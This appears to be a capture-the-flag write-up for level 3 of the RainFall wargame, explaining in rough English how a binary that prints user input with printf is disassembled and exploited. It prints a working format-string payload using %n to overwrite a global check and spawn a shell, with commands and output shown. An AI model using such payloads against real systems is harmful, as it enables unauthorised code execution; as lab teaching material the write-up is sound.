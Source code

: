 # Level 3

like the previous level we have a benary file `level3` when we excute it wait for input and print it.

```c
level3@RainFall:~$ ./level3
can hack me
can hack me
level3@RainFall:~$

```

let check the binary file withh gdb and see what is going on

```c
Dump of assembler code for function main:
   0x0804851a <+0>:	push   ebp
   0x0804851b <+1>:	mov    ebp,esp
   0x0804851d <+3>:	and    esp,0xfffffff0
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.

```

we can see that the main function call the function `v` so let check it

```c
(gdb) disassemble v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x218
   0x080484ad <+9>:	mov    eax,ds:0x8049860
   0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:	lea    eax,[ebp-0x208]
   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    eax,ds:0x8049880
   0x080484e9 <+69>:	mov    edx,eax
   0x080484eb <+71>:	mov    eax,0x8048600
   0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:	mov    DWORD PTR [esp],eax
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.

```

```c
(gdb) x/s 0x8048600
0x8048600:	 "Wait what?!\n"
(gdb) x/s 0x804860d
0x804860d:	 "/bin/sh"
```

as you see they read input with `fgets` and print it with `printf` and then they check if the input is 0x40 = 64 bytes, if equal they print with `fwrite` **Wait what?!** and then call `system` with the string `/bin/sh` else they leave the function.

so in this level we need to assign 64bit to the address `0x8049880` to get the shell.

we cant use `fgets` to do a buffer overflow because it check the input size and if it is bigger than 0x200 it will stop reading and return so we need to use `printf` to do the buffer overflow : **_format string attack_**.

[man 3 printf](https://man7.org/linux/man-pages/man3/printf.3.html) in Bug section :

**Code such as `printf(foo);` often indicates a bug, since foo may
contain a % character. If foo comes from untrusted user input,
it may contain %n, causing the printf() call to write to memory
and creating a security hole.**

in printf we had a `%n` that will write to memory, `%x` that print the value in hex , let check if we can use it.

```c
level3@RainFall:~$ ./level3
AAAABBBBCCCC %x %x %x %x %x %x
AAAABBBBCCCC 200 b7fd1ac0 b7ff37d0 41414141 42424242 43434343
```

As we see in this example printf print some adress and then print 41414141 AAAA, and we know that %n will write in memory.

```c
  0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
```

eax contain the content of 0x804988c so we need to change this value to be equal to 0x40.

```python
python -c 'print("\x8c\x98\x04\x08" + "%x" * 3 + "%n")' > a
```

after passing this file to level3 we found that 0x804988c = 23 and 23 its mean how much carracters %n read so we need to add 41 character to be 0x40.

```python
python -c 'print("\x8c\x98\x04\x08" + "%x" * 3 + "a" * 41 + "%n")' > a
```

Taraaaaaaa

```c
level3@RainFall:~$ cat a - | ./level3
��200b7fd1ac0b7ff37d0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
whoami
level4
```
